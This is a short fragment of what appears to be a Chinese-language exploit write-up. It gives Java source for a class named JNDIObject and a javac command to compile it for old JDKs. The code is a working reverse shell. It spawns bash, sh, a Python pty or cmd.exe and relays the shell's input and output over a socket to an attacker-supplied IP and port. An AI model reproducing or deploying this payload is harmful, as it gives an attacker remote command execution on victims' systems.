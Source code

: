 ```java
                    } else {
                        cmd = new String[]{py_path, "-c", "import pty;pty.spawn(\"/bin/sh\")"};
                    }
                } else {
                    if ((new File("/bin/bash")).exists()) {
                        cmd = new String[]{"/bin/bash"};
                    } else {
                        cmd = new String[]{"/bin/sh"};
                    }
                }
            } else {
                cmd = new String[]{"cmd.exe"};
            }
            Process p = (new ProcessBuilder(cmd)).redirectErrorStream(true).start();
            Socket s = new Socket(ip, Integer.parseInt(port));
            InputStream pi = p.getInputStream();
            InputStream pe = p.getErrorStream();
            InputStream si = s.getInputStream();
            OutputStream po = p.getOutputStream();
            OutputStream so = s.getOutputStream();
            while(!s.isClosed()) {
                while(pi.available() > 0) {
                    so.write(pi.read());
                }
                while(pe.available() > 0) {
                    so.write(pe.read());
                }
                while(si.available() > 0) {
                    po.write(si.read());
                }
                so.flush();
                po.flush();
                Thread.sleep(50L);
                try {
                    p.exitValue();
                    break;
                } catch (Exception e) {
                }
            }
            p.destroy();
            s.close();
        }catch (Throwable e){
            e.printStackTrace();
        }
    }
}
```

使用兼容低版本 jdk 的方式编译：(java8)

`javac -source 1.5 -target 1.5 JNDIObject.java`
